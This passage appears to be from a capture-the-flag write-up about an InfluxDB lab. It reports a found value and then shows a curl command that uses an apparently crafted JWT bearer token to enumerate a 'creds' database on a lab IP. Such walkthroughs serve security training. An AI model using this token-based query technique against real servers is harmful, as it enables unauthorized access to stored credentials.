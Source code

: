 <img style="float: left;" src="screenshots/screenshot7.png">

From the result, we can see that the highest RPM is: **4875**

---

### [ What username do you find in one of the databases? ]

Finally, let's take a look at the **creds** database.

Once again, we look at its measurements:

```
curl -G -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjczODgzNzMwfQ.pqWNywYIVjYoPHbEmcapT_PsVR8mll00rYWCAV_xQrY' 'http://10.10.179.212:8086/query?pretty=true' --data-urlencode "db=creds" --data-urlencode "q=show measurements"
```

<img style="float: left;" src="screenshots/screenshot8.png">
